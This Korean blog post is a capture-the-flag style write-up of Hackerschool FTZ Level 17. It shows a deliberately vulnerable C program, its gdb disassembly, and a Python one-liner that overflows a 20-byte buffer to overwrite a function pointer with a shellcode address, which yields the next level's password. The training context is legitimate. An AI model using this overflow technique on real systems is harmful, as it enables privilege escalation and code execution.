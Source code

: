 ```yaml
---
date: '2022-10-06'
before : '2022-10-07'
after : '2022-10-08'
title: '시스템 해킹(13) : 해커스쿨 FTZ 레벨 17'
categories: ['C-SEC', 'KOR']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

이번 문제는 사실 정말 설명이 필요 없을정도로 Level 16과 비슷하다...

### 1. Level 17

소스코드부터 확인해보자.

```
#include <stdio.h>

void printit() {

  printf("Hello there!\n");

}

main()

{ int crap;

  void (*call)()=printit;

  char buf[20];

  fgets(buf,48,stdin);

  setreuid(3098,3098);

  call();
}
```

크게 어려울 것 없는 코드다. 다만 이번엔 printit함수만 존재한다! 그렇다고 RET까지 가기에는 입력받는 범위가 모자라다. 


그럼 단순히 Shell 코드 환경변수 하나 만들어서 그 주소를 printit에 대입하면 될 것이다. 환경변수를 만들고 주소까지 확인하는 법은 내 블로그 FTZ Level12에 자세히 나와있다!


환경변수를 만들고 주소까지 확인해보니 :
```
0xbffffc18
```
값이 나왔다. gdb로 포인터와 배열 사이의 거리를 재보자.
```
0x080484a8 <main+0>:    push   ebp
0x080484a9 <main+1>:    mov    ebp,esp
0x080484ab <main+3>:    sub    esp,0x38
0x080484ae <main+6>:    mov    DWORD PTR [ebp-16],0x8048490
0x080484b5 <main+13>:   sub    esp,0x4
0x080484b8 <main+16>:   push   ds:0x804967c
0x080484be <main+22>:   push   0x30
0x080484c0 <main+24>:   lea    eax,[ebp-56]
0x080484c3 <main+27>:   push   eax
0x080484c4 <main+28>:   call   0x8048350 <fgets>
0x080484c9 <main+33>:   add    esp,0x10
0x080484cc <main+36>:   sub    esp,0x8
0x080484cf <main+39>:   push   0xc1a
0x080484d4 <main+44>:   push   0xc1a
0x080484d9 <main+49>:   call   0x8048380 <setreuid>
0x080484de <main+54>:   add    esp,0x10
0x080484e1 <main+57>:   mov    eax,DWORD PTR [ebp-16]
0x080484e4 <main+60>:   call   eax
0x080484e6 <main+62>:   leave
0x080484e7 <main+63>:   ret
0x080484e8 <main+64>:   nop
0x080484e9 <main+65>:   nop
```
예상했지만, 저번 문제와 똑같다(...) 그냥 저번 문제의 코드에서 주소만 쉘코드 주소로 바꿔서 넣어보니 문제가 풀린다.
```
(python -c 'print "A"*40+"\x18\xfc\xff\xbf"'; cat) | ./attackme
```

비밀번호 : why did you do it
---
## Source

- 해커스쿨 FTZ
- Me!



